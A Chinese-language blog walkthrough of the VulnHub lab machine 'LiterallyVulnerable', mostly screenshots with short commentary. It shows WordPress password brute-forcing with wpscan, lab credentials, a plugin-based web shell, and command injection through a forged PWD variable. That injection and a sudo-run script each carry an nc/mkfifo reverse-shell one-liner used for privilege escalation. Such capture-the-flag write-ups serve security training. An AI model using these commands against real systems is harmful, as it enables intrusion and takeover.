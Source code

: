 ```yaml
---
layout: post
title:  "LiterallyVulnerable"
description: walkthrough
category: vulnhub
---
```

# LiterallyVulnerable

![image-20200713222221001]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200713222221001.png)

![image-20200713223445927]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200713223445927.png)

![image-20200713224443396]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200713224443396.png)

![image-20200714014817277]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714014817277.png)

![image-20200714015246460]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714015246460.png)

80

![image-20200714015815871]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714015815871.png)

显示不正确，先加个hosts

![image-20200714015859359]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714015859359.png)

![image-20200714020013972]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714020013972.png)

![image-20200714020129568]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714020129568.png)

![4]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714020512891.png)

admin用户确认。

利用之前的密码名单尝试暴力

```bash
wpscan --url http://literally.vulnerable/ -e u,vp -P backupPasswords
```

 wpscan

![image-20200714022902910]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714022902910.png)

又一个wp

![image-20200714023118484]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714023118484.png)



![image-20200714024915017]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714024915017.png)



![image-20200714024716629]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714024716629.png)



在其中的帖子中发现

![image-20200714024821740]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714024821740.png)

看来密码应该是用在这里的

同样的密码名单在65535端口上再次做同样的尝试

![image-20200714024055228]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714024055228.png)

```bash
maybeadmin
$EPid%J2L9LufO5
```

登录成功。

![image-20200714030143544]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714030143544.png)

在已经发布的页面中查看被密码保护的帖子

![image-20200714030000867]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714030000867.png)

一个新的凭证

![image-20200714030503566]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714030503566.png)

```bash
notadmin:Pa$$w0rd13!&
```

成功重新登录

![image-20200714030634840]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714030634840.png)

登录后台通过修改404提交rshell

![image-20200714031031348]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031031348.png)

![image-20200714031113664]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031113664.png)

报错。尝试修改插件

![image-20200714031256174]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031256174.png)

![image-20200714031315282]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031315282.png)

成功

```bash
http://literally.vulnerable:65535/phpcms/wp-content/plugins/akismet/akismet.php
```

浏览器浏览。在监听端口获得shell

![image-20200714031634455]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031634455.png)

两个用户

![image-20200714031810188]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714031810188.png)

![image-20200714033022926]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714033022926.png)

分析一下这个二进制程序

![image-20200714033331295]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714033331295.png)

![image-20200714033412814]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714033412814.png)

尝试运行

![image-20200714033305286]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714033305286.png)

所以是抓取了当前路径。echo出来，如果路径指向文件，则能以root越权echo其他用户的文件

同样的我们可以通过伪造目录向这个程序注入命令。

尝试一下

![image-20200714034601720]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714034601720.png)

简单的成功注入

再次修改，尝试获得shell，尝试很多种语句，最终确定下面的语句

```bash
export PWD=';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.132 1338 >/tmp/f'
./itseasy
```

![image-20200714035907266]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714035907266.png)

![image-20200714035952205]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714035952205.png)

成功切换到 john

![image-20200714040204273]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714040204273.png)

在目录下枚举

![image-20200714040321106]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714040321106.png)

![image-20200714040442975]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714040442975.png)

发现john的凭证

```bash
john:YZW$s8Y49IB#ZZJ
```

有凭证之后肯定要查看sudo

![image-20200714040610072]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714040610072.png)

html路径权限是www-data权限。

返回之前的shell

通过echo伪造test.html

```bash
echo '#!/bin/bash' > test.html
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.132 1339 >/tmp/f' >> test.html
```

![image-20200714041437905]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714041437905.png)

增加运行权限

![image-20200714041818532]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714041818532.png)

在1339建立监听

我们已经有john的凭证，直接ssh登录。john

```bash
ssh john@192.168.110.135
```

通过运行获得root shell

![image-20200714041910022]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714041910022.png)

![image-20200714042132754]({{ site.url }}/assets/LiterallyVulnerable.assets/image-20200714042132754.png)

